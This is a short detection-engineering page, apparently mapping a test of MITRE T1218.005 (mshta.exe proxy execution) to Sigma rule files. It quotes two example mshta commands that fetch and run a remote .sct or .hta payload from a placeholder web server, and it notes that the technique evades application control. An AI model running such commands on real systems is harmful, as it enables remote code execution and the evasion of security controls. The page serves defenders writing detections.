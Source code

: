 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Mshta 

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.005


# Test : Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
## OS
  - windows


## Description:
Test execution of a remote script using mshta.exe. Upon execution calc.exe will be launched.


# Sigma Rule
 - win_susp_mshta_pattern.yml (id: e32f92d1-523e-49c3-9374-bdb13b46a3ba)

 - win_mshta_javascript.yml (id: 67f113fa-e23d-4271-befa-30113b3e08b1)

 - win_susp_mshta_execution.yml (id: cc7abbd0-762b-41e3-8a26-57ad50d2eea3)

 - file_event_win_shell_write_susp_directory.yml (id: 1277f594-a7d1-4f28-a2d3-73af5cbeab43)

 - sysmon_win_binary_github_com.yml (id: 635dbb88-67b3-4b41-9ea5-a3af2dd88153)



[back](../index.md)
